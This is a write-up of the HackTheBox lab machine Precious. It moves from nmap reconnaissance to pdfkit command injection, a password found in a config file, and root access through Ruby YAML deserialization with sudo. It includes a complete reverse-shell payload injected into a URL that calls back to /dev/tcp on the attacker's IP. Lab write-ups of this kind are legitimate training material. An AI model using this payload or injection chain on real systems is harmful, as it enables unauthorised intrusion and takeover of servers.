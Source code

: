 # Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

- Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226741282-9a311d20-c0e4-441b-a3f9-bcb0d5dbfee9.png)


- Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well. I first checked to see if there was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command `searchsploit` and as well searched online to double check that the results searchsploit was returning was accurate.  

![image](https://user-images.githubusercontent.com/61332852/226741456-c9a16920-e2fe-4c87-8a68-0d771287afd9.png)


- After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file. ` sudo nano /etc/hosts`

![image](https://user-images.githubusercontent.com/61332852/226741510-ddb0bf29-c230-4fe9-8358-b473047c2bcb.png)


- The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running `gobuster` to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.  

![image](https://user-images.githubusercontent.com/61332852/226741549-687b06b1-c12f-476c-af0a-c0ddc96cf4ae.png)


- After messing with the input box, I opened `BurpSuite` to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a `Cannot load remote URL` message. Thus, I began to start my own python webserver on my localhost. `python3 -m http.server 80` 

![image](https://user-images.githubusercontent.com/61332852/226741593-13dee221-b0eb-4078-be20-a70db1163a28.png)


- After inputting the local python server that I had started it returned the contents within the file directory of my local http server. 

![image](https://user-images.githubusercontent.com/61332852/226741686-71d0b8d6-a3fe-4b35-a3ab-bddf8e6f230e.png)


- I used `exiftool` to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the software that was converting the URL to PDF. 

![image](https://user-images.githubusercontent.com/61332852/226741706-65767298-d96a-4dd1-814f-43dbb8f7ee47.png)

- I used the `searchsploit` command again here to see if there was anything it would find for `pdfkit v0.8.6` which was the software that running. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the software running. I then found that it was vulnerable to `command injection` a type of injection vulnerability.    

![image](https://user-images.githubusercontent.com/61332852/226740759-38fc8f1e-892f-49a6-96ad-04a76634b2d9.png)

![image](https://user-images.githubusercontent.com/61332852/226741771-626f4fba-653e-4d38-bcc7-7bdad02b262e.png)

- Reading more of the vulnerability and what we can start to do to exploit it this is what I found. `An application could be vulnerable if it tries to render a URL that contains query string parameters with user input`. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  

![image](https://user-images.githubusercontent.com/61332852/226741798-232aafb6-3c92-4762-ac57-ae0948790ac7.png)

- After grabbing a reverse shell command, I inserted it as a string within the URL ``http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}``. Thus, getting me in as the user `Ruby` within the webserver.  

![image](https://user-images.githubusercontent.com/61332852/226741845-35568897-9a2f-4712-bbd7-86bf2937fb09.png)

- Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything at first. I then used `ls -la`. I found something I don’t see usually which was a directory called `.bundle` which I then found a config file consisting of another user’s (`henry`) password.  

![image](https://user-images.githubusercontent.com/61332852/226741890-53eead9b-384a-46ef-b168-df9adea85aca.png)

- I began to login as the user `henry` with the given password. Successfully getting us in. I first checked Henrys home directory to check for any flags shown there. Then giving us our first flag.  

![image](https://user-images.githubusercontent.com/61332852/226741914-b662dae5-dbe7-45a2-96d4-4ce6ef85a913.png)


- To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

![image](https://user-images.githubusercontent.com/61332852/226741948-58605825-7332-4cd9-bc05-10009d7285a0.png)

- After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to a `Yaml Deserialization Attack` allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute. After looking for the Ruby Yaml Exploit code we found the code to run from a GitHub Host. We then created a file within our home folder `touch dependency.yml` to paste the following code into. 

![image](https://user-images.githubusercontent.com/61332852/226741989-6c02e501-2ada-453f-952f-736cf961fe04.png)

- After running `sudo /usr/bin/ruby /opt/update_dependencies.rb` we can now run `/bin/bash -p` to see if we spawn as the root user. Which is successful.

![image](https://user-images.githubusercontent.com/61332852/226742005-cf622090-5dc7-426d-bf62-5e5e6308d3b1.png)

- After going into roots home folder we find the root flag for the machine.

![image](https://user-images.githubusercontent.com/61332852/226742027-66aa5a44-f08a-4a2f-80db-823fe064db36.png) 
